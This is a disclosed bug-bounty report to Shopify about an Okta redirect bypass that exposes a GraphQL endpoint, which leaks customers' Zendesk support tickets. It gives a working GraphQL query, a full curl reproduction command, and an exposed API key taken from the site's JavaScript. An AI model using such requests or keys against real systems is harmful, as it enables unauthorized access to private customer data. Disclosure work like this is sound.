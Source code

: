 # Unauthenticated access to Zendesk tickets through athena-flex-production.shopifycloud.com Okta bypass

## Report Details
- **Report ID**: 397130
- **URL**: https://hackerone.com/reports/397130
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-08-20T00:14:05.542Z
- **Disclosed**: 2018-09-19T16:15:49.202Z

## Reporter
- **Username**: rijalrojan
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
**Summary**

athena-flex-production.shopifycloud.com seems to be an internal system that Shopify uses because it redirects user to Okta login. During this however, I noticed that it first returns 200 and then does a redirect meaning some part of the website loads before redirecting. With this, I was able to get the JS being used in the system. Through the JS file, I found a path that allows GraphQL queries thus resulting in a full dump of Zendesk ticket information. 

**Description**

When you originally go to athena-flex-production.shopifycloud.com you will find that it will redirect to Okta. However if you do `view-source:athena-flex-production.shopifycloud.com` in Chrome, it will show that the website loads momentarily. In one of the script src, there is this link requested by the website: 

https://cdn.shopifycloud.com/athena-flex/assets/main-3fe2559f5e86bcc7d88fe611b71942faa73e787afbc2126a601662ab254a36fc.js

When you beautify the JS file you will notice it has some query data that can be used at the /graphql endpoint. After I got this, I started to play around with the GraphQL schema and see what I could gain access to. 

For my test I sent: 

```
{"query": "query getRecentTicketsQuery($domain: String) {\n    shop(myshopifyDomain: $domain) {\n      zendesk {\n        tickets(last: 5) {\n          edges {\n            node {\n              id\n               requester {\n                name\n              }\n              subject\n              description\n              }\n          }\n        }\n      }\n    }\n  }\n","variables":{"domain":"ok.myshopify.com"}}
```

What this query says is: Return last 5 tickets with description, reporter name and subject of the ticket that contain domain ok.myshopify.com. Once the query was done, it responded with 9,259 bytes of JSON response that contained extremely critical data. 

I don't want to paste the data here for obvious reason but I am attacking the file here so you can delete it by contact support@hackerone.com later if you wish to disclose the report. 


**Reproduction**
1. Send the following curl request: 

```
curl -i -s -k  -X $'POST' \
    -H $'Host: athena-flex-production.shopifycloud.com' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:61.0) Gecko/20100101 Firefox/61.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Content-Type: application/json' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' -H $'Content-Length: 422' \
    --data-binary $'{\"query\": \"query getRecentTicketsQuery($domain: String) {\\n    shop(myshopifyDomain: $domain) {\\n      zendesk {\\n        tickets(last: 5) {\\n          edges {\\n            node {\\n              id\\n               requester {\\n                name\\n              }\\n              subject\\n              description\\n              }\\n          }\\n        }\\n      }\\n    }\\n  }\\n\",\"variables\":{\"domain\":\"ok.myshopify.com\"}}' \
    $'https://athena-flex-production.shopifycloud.com/graphql'
```

**More information**

There is also an API key that I found on the JS file. I think this might be the Zendesk api key but I am not yet sure: 

```
R = n.n(O)()({
 apiKey: "5c0246635b3c77189888c0b10d3427ac",
 notifyReleaseStages: ["production"],
 releaseStage: "production" 
}),
```

## Impact

1. Get ticket description means dumping any detail you want. 
2. Creating zendesk ticket in behalf of other agents. 
3. Changing state of other tickets. 

**I will post list of all functions that is possible in this graphql.**

## Attachments
No attachments
